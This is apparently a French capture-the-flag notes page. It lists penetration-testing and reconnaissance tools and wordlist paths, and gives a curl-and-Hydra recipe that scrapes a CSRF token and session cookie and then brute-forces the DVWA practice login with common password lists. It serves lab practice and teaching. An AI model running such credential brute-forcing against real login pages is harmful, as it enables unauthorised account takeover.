 # CTF
Write-up des chall que j'ai réalisé


# TOOLS
phoneinfoga => FrameWork pour OSINT de numero de telephone
Feroxbuster, dirb, dirbuster, gobuster => fuzz

nikto, Nessus, Rapid7, OpenVas => Scanner de vulnerabilitö web

BurpSuite, ZAProxy => Scanner de platforme web

Maltego => Reconnaissance passive graphique
Metagoofil => Reconnaissance passive

yersinia => Pour les protocoles de communication (Cisco et autre)

# BRUTE FORCE
Avec Hydra :
```
CSRF=$(curl -s -c dvwa.cookie "192.168.1.44/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```
```
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')```
```
```
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php"
```
```
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```

# WORDLIST :
/usr/share/wordlists
  |--dirb
  |--dirbuster
  |--fasttrack.txt
  |--fern-wifi
  |--metasploit
  |--nmap.lst
  |--rockyou.txt
  |--wfuzz

/usr/share/wordlists/dirb/common.txt => sub domain 
/usr/share/wordlists/dirb/big.txt => sub domain 
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/usr/share/seclist/bitquark-subdomains-top100000.txt
/usr/share/seclist/subdomains-top1millions-110000.txt
